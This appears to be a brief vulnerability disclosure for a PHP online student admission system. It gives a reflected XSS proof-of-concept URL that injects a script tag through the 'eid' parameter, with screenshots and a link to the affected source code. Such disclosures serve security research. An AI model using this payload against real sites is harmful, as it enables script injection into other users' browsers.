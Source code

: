 # Student-Admission-Reflection Xss

### Xss Payload

```
index.php?a=edit&eid=8</h3><script>alert(1)</script>
```

![image](https://user-images.githubusercontent.com/72059221/182757706-14a19be6-c7b9-4dd6-b181-7ea452ec13d2.png)

#### Code

![image](https://user-images.githubusercontent.com/72059221/182757859-313f5730-5ff0-489b-b9ef-a56f1846c0b4.png)

## Code Download

https://www.sourcecodester.com/php/15514/online-admission-system-php-and-mysql.html
